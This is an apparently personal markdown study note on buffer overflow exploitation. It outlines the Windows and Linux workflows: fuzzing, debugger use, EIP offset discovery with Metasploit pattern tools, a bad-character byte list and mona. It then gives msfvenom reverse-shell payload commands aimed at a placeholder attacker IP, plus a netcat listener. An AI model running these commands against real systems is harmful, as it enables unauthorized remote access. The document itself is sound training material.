

# buffer overflow


[TOC]


## types


### stack based


A technically inclined user may exploit stack-based buffer overflows to manipulate the program to their advantage in one of several ways:

- By overwriting a local variable that is located near the vulnerable buffer on the stack, in order to change the behavior of the program
- By overwriting the return address in a [stack frame](https://en.wikipedia.org/wiki/Stack_frame). Once the function returns, execution will resume at the return address as specified by the attacker - usually a user-input filled buffer
- By overwriting a function pointer[[1\]](https://en.wikipedia.org/wiki/Buffer_overflow#cite_note-1) or [exception handler](https://en.wikipedia.org/wiki/Exception_handler), which is subsequently executed
- By overwriting a local variable (or pointer) of a different stack frame, which will be used by the function which owns that frame later  


### heap based

A buffer overflow occurring in the heap data area is referred to as a heap overflow and is exploitable in a manner different from that of stack-based overflows. Memory on the heap is dynamically allocated by the application at run-time and typically contains program data. Exploitation is performed by corrupting this data in specific ways to cause the application to overwrite internal structures such as linked list pointers. The canonical heap overflow technique overwrites dynamic memory allocation linkage (such as [malloc](https://en.wikipedia.org/wiki/Malloc) meta data) and uses the resulting pointer exchange to overwrite a program function pointer


## exploitation

### windows buffer overflow

#### discovering vulnerablity 


we discover a application is vulnerable to buffer overflow  by fuzzing the application with a fuzzer

### introduction to immunity debuuger

#### adding the application to  imunnity debugger

####  

#### fuzzing the application 

a fuzzer  fuzzes the application with in an random incremental order such that the application stops when it detects a crash or timeout from the application we interact

#### replicating the crash 

we replicate crash by sending the appliation with value at which it crashed 

#### controlling the EIP

##### locating eip  by creating unique pattern

```
msf-pattern_create -h
msf-pattern_create -l length of buffer

```


##### locating the offset address of eip

```
msf-pattern_offset -h
msf-pattern_offset -l lengthofbuffer -q stringfromeip
```


#### locating space for shell code

##### checking for bad charcters

```
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```



##### redirecting the execution flow

##### finding the return address

 ##### introduction to mona

```
!mona
```


##### identifying the module with out aslr,dep,seh

##### nasm shell

```
msf-nasm_shell

nasm>jmp esp

!mona 
!mona modules 
!mona find -s "instruction " -m "module to search"

```


#### genrating shellcode

```
msfvenom -p windows/shell_reverse_tcp lhost=attackerip lport=attackerport -f fileformat -e x86/shikata_ga_nai -b "badcharcters"
```


#### optimising the shellcode


#### getting  reverse shell

```
nc -nlvp port to connect
```


#### improving the exploit


# linux buffer overflow

#### discovering the vulnerablity

### replicating the crash

### introduction to the edb(evans debugger)

```
edb
```


##### adding the applcation to the edb

```

```


### controlling the EIP

#### locating the eip using unique pattern 

```
msf-pattern_create -l string
```


#### locating the offset using the unique pattern

```
msf-pattern_offset -q string
```


### locating Space for shell code


#### geting opcodes

```
msf-nasm_shell
nasm>
nasmm>
```


### checking for bad charcters

```
\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```


### finding a return address

```

```


### genrating shellcode

```
msfvenom -p linux/x86/shell_reverse_tcp lhost=ip of attacker lport=port to connect -b "badcharcters here" -f fileformat -o outputname
```


### modfying shellcode

```
msfvenom -p linux/x86/shell_reverse_tcp lhost=ip of attacker lport=port to connect -b "badcharcters here" -f fileformat -v shellcode
```


### getting shell

```
nc -nlvp port 
```

### [bufferoverflow exploits](https://github.com/5bhuv4n35h/buffer_overflow/tree/master/buffer_exploits)


### [practice applications](https://github.com/5bhuv4n35h/buffer_overflow/tree/master/applications)
